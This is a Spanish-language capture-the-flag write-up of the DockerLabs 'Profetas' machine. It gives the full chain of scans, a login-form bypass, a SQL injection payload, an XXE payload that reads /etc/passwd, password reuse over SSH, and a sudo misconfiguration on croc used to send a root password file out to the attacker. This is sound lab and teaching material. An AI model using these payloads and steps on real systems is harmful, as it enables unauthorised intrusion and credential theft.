






**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `XXE` `Bypass` `Python` `Sudoers` `Croc`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip profetas.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh profetas.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-14 17:45 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:80:90:64:27:37:bc:e2:49:0c:27:c2:4a:09:f6:d0 (ECDSA)
|_  256 6b:05:29:59:af:75:4f:78:7b:f5:2b:2a:13:07:6d:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: ProfetaNet Access
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.28 seconds
```

Navegamos al servicio web del puerto `80` y encontramos un panel de `login`.



Probamos las credenciales `admin:admin` y logramos acceder.

Al entrar nos encontramos un dashboard de monitorización de servidores.



En la parte inferior de la página encontramos una cadena codificada en `Base64`.

```
cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv
```

Procedemos a decodificarla para ver su contenido.

```Bash
echo 'cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv' | base64 -d
```

Info:
```
recuerda... tu contrasea es tu usuario
```

Esto nos da una gran pista que utilizaremos más adelante.

## GOBUSTER

A continuación, utilizamos `Gobuster` para enumerar directorios y archivos en el servidor web.

```Bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh,asp,aspx -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,asp,aspx,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1311]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/admin.php            (Status: 200) [Size: 2841]
/upload.php           (Status: 200) [Size: 1619]
/test.txt             (Status: 200) [Size: 13]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/config.php           (Status: 200) [Size: 0]
/logs                 (Status: 301) [Size: 307] [--> http://172.17.0.2/logs/]
/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
Progress: 236319 / 1985022 (11.91%)
```

Revisamos los resultados: `/uploads` está vacío, `upload.php` devuelve un `error 500` y `test.txt` no contiene información relevante.

Sin embargo, al acceder a `/admin.php`, encontramos otro `panel de login`.



El sistema valida que el usuario sea una dirección de correo electrónico, impidiendo cualquier otro formato. 

Al intentar acceder con credenciales de prueba, obtenemos la siguiente pista:

```
⚠️ Pista: usaurio 'notadmin'
```

Para evadir la restricción del formato de email, inspeccionamos el código fuente, localizamos la etiqueta `<input>` y modificamos el atributo `type="email"` por `type="text"`.



Con el tipo de input modificado, probamos con las credenciales `notadmin:notadmin`, pero recibimos un mensaje de error:

```
⚠️ Credenciales incorrectas
```

El `bypass` del formulario ha funcionado, pero las credenciales no son válidas. Por lo tanto, intentamos una `inyección SQL` en el campo de la contraseña.

```
notadmin
' OR 1=1;-- -
```

Esta vez logramos acceder con éxito.


## XXE INJECTION

Accedemos al Portal 2.



Nos encontramos con un procesador de `XML`, lo que sugiere que podría ser vulnerable a `XXE` (XML External Entity).

Probamos con el siguiente `payload` para intentar leer el archivo `/etc/passwd`.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<root>
  <data>&xxe;</data>
</root>
```

El servidor responde devolviéndonos el contenido del archivo solicitado:

```
Array
(
    [data] => root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
jeremias:x:1001:1001:,,,:/home/jeremias:/bin/bash
ezequiel:x:1002:1002:,,,:/home/ezequiel:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:103::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:103:65534::/run/sshd:/usr/sbin/nologin

)
```

Identificamos dos usuarios en el sistema: `jeremias` y `ezequiel`.

Recordando la pista obtenida anteriormente ("recuerda... tu contraseña es tu usuario"), probamos a conectarnos por `SSH`.

```Bash
ssh jeremias@172.17.0.2
```

Las credenciales `jeremias:jeremias` resultan ser válidas y logramos acceso al sistema.

## MOVIMIENTO LATERAL

Enumeramos el directorio personal en `/home/jeremias` y encontramos un archivo llamado `ezequiel.pyc`. 

Para analizarlo correctamente, lo transferimos a nuestra máquina atacante.

En la máquina víctima levantamos un servidor:

```Bash
python3 -m http.server 4443
```

En nuestra máquina atacante lo descargamos:
```Bash
wget http://172.17.0.2:4443/ezequiel.pyc .
```

Utilizamos la herramienta online `pylingual.io` para descompilar el archivo `.pyc` y recuperar el código fuente original en `Python`.

Una vez descompilado, analizamos el código y encontramos lo siguiente:



Concatenamos las dos variables encontradas para formar una posible contraseña: `234r3fsd2-34fsdrr32`.

Probamos a pivotar al usuario `ezequiel` con esta contraseña.

```Bash
su ezequiel
```

Info:
```
ezequiel@5d8e7a746121:~$ whoami
ezequiel
ezequiel@5d8e7a746121:~$
```

## ESCALADA DE PRIVILEGIOS

En `/home/ezequiel` encontramos un archivo llamado `acces0.txt` con el siguiente contenido:

```
Hola hijo mio, te he dejado mi pwd dentro mi directorio /root/passw0rd_r00t.txt. Firmado: root
```

Comprobamos los permisos `sudo` del usuario.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for ezequiel on 5d8e7a746121:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User ezequiel may run the following commands on 5d8e7a746121:
    (ALL) NOPASSWD: /usr/local/bin/croc
```

Podemos ejecutar la herramienta `croc` como `root` sin contraseña. 

`Croc` permite transferir archivos de forma segura, por lo que podemos usarla para exfiltrar el archivo `/root/passw0rd_r00t.txt` a nuestra máquina atacante.

En la máquina víctima ejecutamos:

```Bash
sudo /usr/local/bin/croc send /root/passw0rd_r00t.txt
```

Info:
```
Sending 'passw0rd_r00t.txt' (10 B)
Code is: 0175-resume-fashion-mercy

On the other computer run:
(For Windows)
    croc 0175-resume-fashion-mercy
(For Linux/macOS)
    CROC_SECRET="0175-resume-fashion-mercy" croc
```

En nuestra máquina atacante recibimos el archivo utilizando el código proporcionado:

```Bash
CROC_SECRET="0175-resume-fashion-mercy" croc
```

Info:
```
Accept 'passw0rd_r00t.txt' (10 B)? (Y/n) y

Receiving (<-127.0.0.1:39488)
 passw0rd_r00t.txt 100% |████████████████████| (10/10 B, 5.5 kB/s)
```

Leemos el contenido del archivo recibido:

```Bash
cat passw0rd_r00t.txt
```

```
fl4sk1pwd
```

Finalmente, utilizamos esta contraseña para autenticarnos como `root`.

```Bash
su root
```

```
root@5d8e7a746121:/home/ezequiel# whoami
root
root@5d8e7a746121:/home/ezequiel#
```

Ya somos root!
